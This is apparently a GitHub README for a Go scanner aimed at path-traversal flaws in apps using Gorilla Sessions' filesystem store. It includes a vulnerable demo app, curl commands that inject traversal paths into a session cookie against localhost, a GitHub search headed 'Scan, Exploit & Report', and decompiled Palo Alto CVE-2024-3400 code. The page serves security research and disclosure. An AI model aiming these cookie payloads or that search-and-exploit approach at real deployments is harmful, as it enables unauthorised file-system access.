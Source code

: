 ![Gorilla Guard Logo](https://github.com/schooldropout1337/gorilla/blob/main/gorilla-cookie.jpg)

# Gorilla Guard

```
go run gorillaguard.go
```

Gorilla Guard is a security tool designed to enhance the security of web applications built using the Gorilla Sessions library by detecting and preventing potential path traversal vulnerabilities. It specifically targets Common Weakness Enumeration (CWE) number 22, which relates to improper handling of input data that may lead to path traversal attacks.

![Gorilla Guard Scan](https://github.com/schooldropout1337/gorilla/blob/main/gorillaguard-poc.jpg)

# Scan, Exploit & Report

https://github.com/search?q=sessions.NewFilesystemStore+language%3Ago+&type=code


# A Gorilla Session Vulnerable to Path Directory Traversal

```
export SESSION_KEY=gorilla
```

```
go run escapezoo.go
```

# CWE-22: Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal').

```
curl --cookie "zoo=$PREFIX/tmp" http://localhost:8080
```

```
curl --cookie "zoo=$HOME/" http://localhost:8080
```

# Palo Alto Global Protect CVE-2024-3400 related vulnerability

```
if ( os_IsNotExist(fmta._r2) )
      {
        store_8b = (github_com_gorilla_sessions_Store_0)net_http__ptr_Request_Context(r);
        ctxb = store_8b.tab;
        v52 = runtime_convTstring((string)s->path);
        v6 = (_1_interface_ *)runtime_newobject((runtime__type_0 *)&RTYPE__1_interface_);
        v51 = (interface__0 *)v6;
        (*v6)[0].tab = (void *)&RTYPE_string_0;
        if ( *(_DWORD *)&runtime_writeBarrier.enabled )
          runtime_gcWriteBarrier();
        else
          (*v6)[0].data = v52;
        storee.tab = ctxb;
        storee.data = store_8b.data;
        fmtb.str = (uint8 *)"folder is missing, create folder %s";
        fmtb.len = 35LL;
        fmt_16a.array = v51;
        fmt_16a.len = 1LL;
        fmt_16a.cap = 1LL;
        paloaltonetworks_com_libs_common_Warn(storee, fmtb, fmt_16a);
        err_1 = os_MkdirAll((string)s->path, 0644u);
```

https://labs.watchtowr.com/palo-alto-putting-the-protecc-in-globalprotect-cve-2024-3400/

# A Justification on SESSID implemented on Palo Alto

```
A PSA since there's some confusion on this...

There is no vulnerability in Gorilla Sessions.

The vulnerability is in Palo Alto's internal SessDiskStore, which looks similar to FilesystemStore. Early analysis came to the mistaken conclusion that the vulnerable path was in FilesystemStore, but it's not. FilesystemStore authenticates the Session.ID with securecookie, SessDiskStore does not.

Hypothetically, if an application went out of their way to misuse FilesystemStore by not using its New API and stuffing attacker-controlled data in Session.ID (which is documented as not being safe), they could hit this.

That's *not* what happened to Palo Alto. They wrote their own Store that takes the session ID from a cookie in New without authentication.
```

https://abyssdomain.expert/@filippo/112289039356637058
